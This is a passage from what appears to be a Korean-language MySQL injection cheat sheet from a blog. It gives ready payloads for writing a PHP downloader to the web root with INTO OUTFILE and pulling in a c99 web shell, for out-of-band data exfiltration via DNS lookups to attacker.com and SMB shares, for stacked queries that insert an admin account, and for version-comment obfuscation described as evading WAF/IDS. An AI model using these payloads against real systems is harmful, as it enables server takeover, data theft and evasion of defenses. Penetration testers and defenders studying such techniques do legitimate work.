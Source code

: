 `다운로더를 작성하려면 :`<br>
`SELECT '<? fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/get.php'`<br><br>
`다음 위치에서 액세스하십시오 :`<br>
`hxxp://localhost/get.php?f=shell.php&u=http://localhost/c99.txt`<br><br>

노트 :<br>
파일은 INTO OUTFILE 로 겹쳐 쓸 수 없음.<br>
INTO OUTFILE 은 쿼리의 마지막 명령문이어야 함.<br>
경로 이름을 인코딩할 방법이 없으므로 따옴표가 필요함.<br><br><br>



## (17) 대역 외 채널링

**① DNS Requests**<br><br>

1SELECT LOAD_FILE(CONCAT('\\\\foo.',(select MID(version(),1,1)),'.attacker.com\\'));1<br><br>

**② SMB Requests**<br><br>

`' OR 1=1 INTO OUTFILE '\\\\attacker\\SMBshare\\output.txt`<br><br><br>



### (18) 누적된 쿼리(Stacked Queries)

누적된 쿼리 기법은 하나의 쿼리에 추가적인 쿼리를 삽입하는 기법임.<br>
PHP 응용 프로그램이 데이터베이스와 통신하는 데 사용되는 드라이버에 따라 MySQL 에서 가능함.<br>
PDO_MYSQL 드라이버는 누적된 쿼리(Stacked Queries)를 지원함.<br>
MySQLi (Improved Extension) 드라이버는 multi_query() 함수를 통해 누적된 쿼리(Stacked Queries)를 지원함.<br><br>

예 :<br>
`SELECT * FROM Users WHERE ID=1 AND 1=0; INSERT INTO Users(username, password, priv) VALUES ('BobbyTables', 'kl20da$$','admin');`<br>
`SELECT * FROM Users WHERE ID=1 AND 1=0; SHOW COLUMNS FROM Users;`<br><br><br>



### (19) MySQL 특정 코드

MySQL 에서는 느낌표 뒤에 버전 번호를 지정할 수 있음.<br>
주석의 구문은 버전이 지정된 버전 번호보다 크거나 같으면 실행됨.<br><br>

예 :<br>
`UNION SELECT /*!50000 5,null;*//*!40000 4,null-- ,*//*!30000 3,null-- x*/0,null--+`<br>
`SELECT 1/*!41320UNION/*!/*!/*!00000SELECT/*!/*!USER/*!(/*!/*!/*!*/);`<br><br>

노트 :<br>
첫 번째 예제는 버전을 반환함. 2개의 컬럼이 있는 UNION 을 사용함.<br>
두 번째 예제는 WAF/IDS 를 우회하는데 어떻게 사용되는 지를 보여줌.<br><br><br>



## (20) 퍼징(Fuzzing)과 난독화(Obfuscation)

**① 허용된 중간 문자열**<br><br>


[KOROMOONlink]: https://koromoon.blogspot.com/2018/10/mysql-injection-cheet-sheet.html "Go KOROMOON"